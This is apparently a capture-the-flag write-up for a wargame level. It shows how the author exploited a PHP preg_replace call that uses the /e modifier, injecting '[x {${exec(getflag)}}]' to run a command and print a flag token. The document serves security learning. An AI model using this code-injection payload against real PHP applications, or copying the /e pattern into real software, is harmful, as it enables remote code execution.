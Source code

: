 When we ls we found a php script and a file that execute the script with a file as argument.
We create a file in the /var/tmp directory and execute the script.
It work, the script print what we put in our txt filre in /var/tmp/.
So now let's try to find how to execute "getflag".

First we tried to break `print` function in the script.
Did not work, so we saw this line : 
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
The /e execute a command, so we juste need to excecute our command this way ! 
So we tried [e  getflag], "[e  getflag]", [e  `getflag`] but these did not work.
I tried to use the exec command like this : [e  exec(getflag)], [e  exec(`getflag`)]
Then with some research i found that `$` could proabably help me.
I tryed to understand how Php treat commands and strings.
With research i found that the good syntax was : '[x {${exec(getflag)}}]'
When i execute the script : 

PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1

We have our token : wiok45aaoguiboiki2tuin6ub